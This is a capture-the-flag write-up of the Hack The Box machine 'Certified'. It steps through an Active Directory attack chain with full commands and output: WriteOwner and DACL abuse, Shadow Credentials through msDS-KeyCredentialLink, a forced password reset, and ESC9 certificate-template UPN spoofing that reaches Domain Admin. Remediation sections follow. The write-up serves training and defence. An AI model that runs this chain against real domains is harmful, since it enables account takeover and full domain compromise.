# How I Rooted HTB Certified: WriteOwner, Shadow Credentials, and ESC9 All the Way to Domain Admin

> A full Active Directory attack chain - from a single low-privilege domain user to Domain Admin through DACL abuse, Shadow Credentials, and an ESC9 certificate template misconfiguration.

---

## Machine Overview


Certified is a Medium-rated Windows machine on Hack The Box that covers a realistic Active Directory attack chain starting from provided credentials.

The machine chains five distinct techniques to reach Domain Admin: WriteOwner DACL abuse to join a privileged group, Shadow Credentials via msDS-KeyCredentialLink manipulation to compromise a service account without touching its password, a forced password reset via GenericAll, and finally ESC9 - a certificate template misconfiguration that lets you impersonate the Administrator account by temporarily spoofing a UPN. Every step requires understanding what the permission actually means before running the tool.

## Summary of Findings

| # | Vulnerability | Severity | CVSS Score |
|---|---------------|----------|------------|
| 1 | WriteOwner on Security Group (Management) | High | 7.5 |
| 2 | GenericWrite on Service Account via Group Membership | High | 7.8 |
| 3 | Shadow Credentials - msDS-KeyCredentialLink Abuse | High | 8.8 |
| 4 | GenericAll on CA_OPERATOR Allowing Password Reset | High | 8.0 |
| 5 | ESC9 - Certificate Template Missing Security Extension | Critical | 9.0 |

**Rationale for scores:**

- **7.5 High** - judith.mader holds WriteOwner on the Management group. Requires existing domain credentials but chains into full group control through DACL manipulation. AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N.
- **7.8 High** - Management group holds GenericWrite over management_svc, enabling msDS-KeyCredentialLink manipulation by any group member. AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H.
- **8.8 High** - Shadow Credentials via GenericWrite allows certificate-based account takeover without the target's password. Credential persists through password rotations. AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H.
- **8.0 High** - management_svc holds GenericAll over CA_OPERATOR, enabling direct password reset and takeover of the certificate operator account. AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N.
- **9.0 Critical** - ESC9 template misconfiguration combined with UPN manipulation enables impersonation of any domain account including Administrator without cracking credentials. AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H.

**Techniques covered:**
- SMB enumeration and AD user discovery
- BloodHound attack path analysis
- DACL abuse via WriteOwner, dacledit, and WriteDACL chaining
- Shadow Credentials via msDS-KeyCredentialLink manipulation (pywhisker)
- PKINIT certificate authentication (gettgtpkinit.py + getnthash.py)
- GenericAll forced password reset via PowerView
- ADCS template enumeration with Certipy
- ESC9 UPN spoofing for certificate-based domain account impersonation
- Pass-the-Hash with evil-winrm

If you are preparing for OSCP or OSEP, this machine is worth your time - it covers DACL abuse and ADCS exploitation at a depth most labs skip, and the ESC9 chain requires understanding Kerberos certificate authentication well enough to exploit a subtle flag at the protocol level.

---

## Reconnaissance

### Port Scan

```bash
nmap -sC -sV -Pn 10.129.28.177
```



| Port | Service | Notes |
|------|---------|-------|
| 53 | DNS | Simple DNS Plus |
| 88 | Kerberos | Windows Kerberos |
| 389/636/3268/3269 | LDAP | Active Directory |
| 445 | SMB | |
| 5985 | WinRM | |
| 9389 | .NET Message Framing | |

Domain: `certified.htb` - this is a Domain Controller (`DC01.certified.htb`). No web server, no unusual services. Credentials are provided: `judith.mader:judith09`.

### Credential Validation

I added `certified.htb` and `DC01.certified.htb` to `/etc/hosts`, then ran my custom [nxcprobe](https://github.com/danildudchenko/nxcprobe/blob/main/nxcprobe.sh) script to quickly validate the credentials across every protocol at once.

```bash
bash nxcprobe.sh
```

```
[+] PASS 1 - DOMAIN AUTH (d: WORKGROUP)

[*] SMB - Domain Auth
SMB    10.129.28.177  445  DC01  [+] WORKGROUP\judith.mader:judith09

[*] WINRM - Domain Auth
WINRM  10.129.28.177  5985  DC01  [-] WORKGROUP\judith.mader:judith09

[*] LDAP - Domain Auth
LDAP   10.129.28.177  389  DC01  [+] WORKGROUP\judith.mader:judith09
```



SMB and LDAP work. WinRM does not - judith cannot get a shell directly. I need to move laterally first.

---

## Enumeration

With no web server and no direct shell, SMB and LDAP enumeration is the starting point.

**User enumeration:**

```bash
nxc smb 10.129.28.177 -u judith.mader -p judith09 --users
```



Nine users returned. `management_svc` and `ca_operator` stood out immediately - `ca_operator` is a strong hint that a Certificate Authority is involved.

**RID brute - looking for group structure:**

```bash
nxc smb 10.129.28.177 -u judith.mader -p judith09 --rid-brute
```



The `Management` group appeared at RID 1104. A custom group with a generic name in an AD environment almost always shows up in BloodHound with interesting permissions.

**SMB shares:**

```bash
nxc smb 10.129.28.177 -u judith.mader -p judith09 --shares
```

Only default shares - ADMIN$, C$, IPC$, NETLOGON, SYSVOL. Nothing interesting. Moved on to BloodHound.

---

## BloodHound - Mapping the Full Attack Path

```bash
bloodhound-python -u 'judith.mader' -p 'judith09' -d 'certified.htb' -ns 10.129.28.177 -c All
```



The first thing I always check in BloodHound is outbound object control on my owned user. The graph showed two paths worth exploring: a Kerberoastable service account, and a DACL abuse chain starting from judith's WriteOwner on the Management group.

I checked both. The Kerberoastable path came first since it is faster - crack the hash, done. The DACL chain requires more steps.



The full chain: judith.mader - WriteOwner - Management group - GenericWrite - management_svc - GenericAll - CA_OPERATOR. Three hops to CA_OPERATOR, and given the machine name and account name, certificates were the obvious final step.

---

## Dead End: Kerberoasting

I tried Kerberoasting first since it is faster than the DACL chain if it works.

```bash
sudo impacket-GetUserSPNs -request -dc-ip 10.129.28.177 certified.htb/judith.mader
```

Hit a clock skew error immediately:

```
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Kerberos requires your clock to be within 5 minutes of the DC. Fixed it:

```bash
sudo timedatectl set-ntp false
sudo ntpdate 10.129.28.177
```

After syncing, Kerberoasting ran and returned a hash for `management_svc`. I threw hashcat at it with rockyou and `best66.rule` - nothing cracked. The service account had a strong password. Dead end. Time to work the DACL chain.

```bash
sudo hashcat -m13100 management_svc_hash /usr/share/wordlists/rockyou.txt
```



---

## DACL Abuse - Getting Into the Management Group

WriteOwner means I can make judith.mader the owner of the Management group. Ownership alone does not grant write access - but once you are the owner, you can modify the DACL to give yourself whatever rights you want. The chain here is three steps: take ownership, grant WriteMembers to yourself, then add yourself.

**Step 1 - Take ownership of the group:**

```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```



**Step 2 - Grant WriteMembers to judith.mader:**

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```



**Step 3 - Add judith to the group:**

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.28.177
```



The command returned without error. I tried step 3 before step 2 on my first attempt and got `NT_STATUS_ACCESS_DENIED`. WriteOwner does not automatically include membership write permissions - you have to explicitly grant yourself WriteMembers through the DACL first.

---

## Shadow Credentials Attack - Compromising management_svc

Judith was now in the Management group, which meant she inherited GenericWrite over `management_svc`. GenericWrite allows writing to most non-protected attributes on an AD object. The most powerful one for this attack is `msDS-KeyCredentialLink`, which backs Windows Hello for Business and certificate-based authentication (PKINIT).

I had two options: targeted Kerberoasting or Shadow Credentials. Targeted Kerberoasting would generate a different hash, but it is the same account with the same password - if it did not crack via Kerberoasting it will not crack via targeted Kerberoasting either. Shadow Credentials is the cleaner path: it adds a certificate-based credential and never touches the password at all.

**Step 1 - Add a shadow credential using pywhisker:**

```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```

```
[+] PFX exported to: jjt8iDjG.pfx
[i] Password for PFX: 9LBWenKJnJj0ToVGwT0e
```



**Step 2 - Get a TGT using PKINIT:**

```bash
python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx jjt8iDjG.pfx -pfx-pass 9LBWenKJnJj0ToVGwT0e management_svc.ccache
```

This returns a TGT and an AS-REP encryption key. That key is what extracts the NTLM hash in the next step.



**Step 3 - Extract the NTLM hash:**

```bash
export KRB5CCNAME=management_svc.ccache
python3 getnthash.py certified.htb/management_svc -key 17955f1ce1d40f86a06cc2ab80cbf8eb033e849a982460c26889b6a2772bcc46
```

```
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```



**Step 4 - Shell as management_svc:**

```bash
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```



---

## Lateral Movement to CA_OPERATOR - GenericAll Password Reset

Back in BloodHound, management_svc had GenericAll over CA_OPERATOR. GenericAll includes every permission - read, write, delete, reset password, take ownership. The simplest move was a direct password reset using PowerView.

One thing I noticed in the management_svc shell: `whoami /all` showed "Certificate Service DCOM Access" in the group memberships. That confirmed certificate services were the next vector before I even ran Certipy.

```powershell
upload PowerView.ps1
. .\PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'CA_OPERATOR' -AccountPassword $NewPassword
```



Verified the new credentials worked:

```bash
nxc smb 10.129.28.177 -u CA_OPERATOR -p Password1234
```



---

## ESC9 - Abusing the Certificate Template

With CA_OPERATOR credentials, I ran Certipy to enumerate certificate templates for misconfigurations:

```bash
certipy-ad find -u ca_operator@certified.htb -p Password1234 -dc-ip 10.129.28.177 -vulnerable -stdout
```

Certipy flagged the `CertifiedAuthentication` template as vulnerable to ESC9.



### What is ESC9?

ESC9 is a certificate template misconfiguration where the template has the `CT_FLAG_NO_SECURITY_EXTENSION` flag set. Under normal conditions, every issued certificate embeds a security extension containing the `objectSid` of the account it was issued to. When you authenticate with that certificate, the KDC verifies that the SID in the certificate matches the actual account - this prevents impersonation.

With ESC9, that SID check does not happen. The KDC identifies the account purely by the UPN (userPrincipalName) stored in the certificate. This creates the attack: temporarily change the UPN of the enrolling account to match a target account like Administrator, request a certificate while the UPN is set that way, revert the UPN, and authenticate with the cert. The KDC maps the UPN to the target account and hands you a TGT for them.

Three conditions made this exploitable here:
- `management_svc` has GenericAll over `CA_OPERATOR` - so I can modify its UPN
- `CA_OPERATOR` can enroll in the `CertifiedAuthentication` template
- `CertifiedAuthentication` has `CT_FLAG_NO_SECURITY_EXTENSION` set

All documented ESC cases (ESC1 through ESC16) are explained here: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

**Step 1 - Change CA_OPERATOR's UPN to "administrator":**

```bash
certipy-ad account -u management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.28.177 -upn 'administrator' -user 'ca_operator' update
```

```
[*] Successfully updated 'ca_operator':
    userPrincipalName: administrator
```



**Step 2 - Request a certificate as CA_OPERATOR:**

The cert gets issued with whatever UPN the account currently has - right now that is "administrator".

```bash
certipy-ad req -u ca_operator -p Password1234 -dc-ip 10.129.28.177 -target 'DC01.certified.htb' -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
```

```
[*] Got certificate with UPN 'administrator'
[*] Saving certificate and private key to 'administrator.pfx'
```



**Step 3 - Revert CA_OPERATOR's UPN back:**

Clean up immediately. Leaving the UPN as "administrator" breaks CA_OPERATOR's normal functionality and creates an obvious artifact in logs.

```bash
certipy-ad account -u management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.28.177 -upn 'ca_operator' -user 'ca_operator' update
```



**Step 4 - Authenticate with the certificate:**

```bash
certipy-ad auth -dc-ip 10.129.28.177 -pfx administrator.pfx -username administrator -domain certified.htb
```

```
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```



**Step 5 - Administrator shell:**

```bash
evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34
```



---

## Vulnerability Analysis

---

### WriteOwner on Security Group (Management)

**Severity:** High
**CVSS Score:** 7.5

**Description:** judith.mader holds the WriteOwner permission on the Management security group, allowing the account to reassign group ownership to itself and subsequently modify the group's DACL.

**Root Cause:** Excessive DACL permissions were granted to a low-privilege user account. WriteOwner on security groups should be restricted to domain administrators only. This likely originated from a misconfigured delegation intended for a more limited purpose.

**Impact:** An attacker controlling judith.mader can take ownership of the Management group, modify its DACL to grant themselves full control, add themselves as a member, and inherit all downstream privileges the group holds over other objects - in this case GenericWrite over a service account.

**Remediation:**
- Remove the WriteOwner ACE from judith.mader on the Management group
- Audit all non-administrative accounts holding WriteOwner, WriteDACL, or WriteProperty on security groups using BloodHound or `Get-DomainObjectAcl`
- Restrict DACL modification rights to Tier 0 administrators only

---

### GenericWrite on Service Account via Group Membership

**Severity:** High
**CVSS Score:** 7.8

**Description:** The Management group holds GenericWrite over the management_svc service account. Any member of Management can write arbitrary non-protected attributes to management_svc, including `msDS-KeyCredentialLink`.

**Root Cause:** The service account was placed under excessive group control without operational need. GenericWrite on service accounts should never be delegated to groups that contain regular users or that can be joined by non-administrators.

**Impact:** Any member of Management can add shadow credentials to management_svc and authenticate as that account via PKINIT without knowing the password. This access persists even through password rotations until the shadow credential is explicitly removed from the msDS-KeyCredentialLink attribute.

**Remediation:**
- Remove the GenericWrite ACE from the Management group's permissions over management_svc
- Use the Protected Users group and Kerberos armoring to limit abuse of service account attributes
- Regularly audit group-to-account ACL relationships with BloodHound's "Dangerous Rights" queries

---

### Shadow Credentials via msDS-KeyCredentialLink Abuse

**Severity:** High
**CVSS Score:** 8.8

**Description:** GenericWrite over management_svc allowed writing attacker-controlled key credentials to the `msDS-KeyCredentialLink` attribute. Combined with PKINIT authentication, this enables full account compromise without the account's password.

**Root Cause:** Windows Hello for Business infrastructure was present but no controls prevented unauthorized writes to `msDS-KeyCredentialLink`. This attribute should only be writable by the Key Admins or Enterprise Key Admins groups, or by the account itself.

**Impact:** The shadow credential persists independently of the account password. Even after a password reset, an attacker can continue authenticating as management_svc until someone explicitly removes the malicious key credential from the attribute. No password change event is generated.

**Remediation:**
- Audit `msDS-KeyCredentialLink` attributes across all privileged accounts regularly
- Restrict write access to this attribute at the DACL level
- Enable auditing on attribute changes (Event ID 5136)
- Run `pywhisker --action list` periodically against high-value accounts to detect unauthorized entries

---

### GenericAll on CA_OPERATOR Enabling Password Reset

**Severity:** High
**CVSS Score:** 8.0

**Description:** management_svc holds GenericAll over CA_OPERATOR, including the ability to reset CA_OPERATOR's password without knowing the current password.

**Root Cause:** GenericAll was unnecessarily delegated to a service account over another sensitive account connected to the certificate authority. The delegation chain here - regular user through DACL abuse to service account to GenericAll over a CA account - represents multiple compounding failures in privilege design.

